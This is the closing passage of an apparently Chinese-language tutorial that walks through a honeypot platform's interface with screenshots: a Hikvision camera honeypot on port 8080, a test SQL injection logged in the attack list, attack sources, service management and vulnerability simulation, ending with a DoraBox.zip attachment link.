[](https://xzfile.aliyuncs.com/media/upload/picture/20231108163710-01e5b466-7e12-1.png)  
这个位置可以看到已开启的蜜罐和对应占用的端口，我们可以尝试访问

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108163726-0ba05722-7e12-1.png)

可以看到这就是我们在8080端口所部署的一个海康摄像头蜜罐

#### B-攻击列表

尝试在海康摄像头蜜罐进行sql注入

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108163813-27c66ce8-7e12-1.png)  
尝试攻击之后在我们的攻击列表之中就会出现对应的记录

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108163828-30a5f342-7e12-1.png)

点击＋号可查看详细信息

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108163842-390666ac-7e12-1.png)

#### C-攻击来源

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108163905-469b0eb2-7e12-1.png)

#### D-服务管理

可看到蜜罐列表以及功能介绍，且可再此上传自己的自定义蜜罐

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108163929-54d13a42-7e12-1.png)

#### E-漏洞模拟

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108163958-66321928-7e12-1.png)

#### F-高交互蜜罐

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108164021-73dbf8c8-7e12-1.png)

### 关闭蜜罐

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108164037-7d6b549c-7e12-1.png)

DoraBox.zip (0.315 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20231108165157-12d58894-7e14-1.zip)
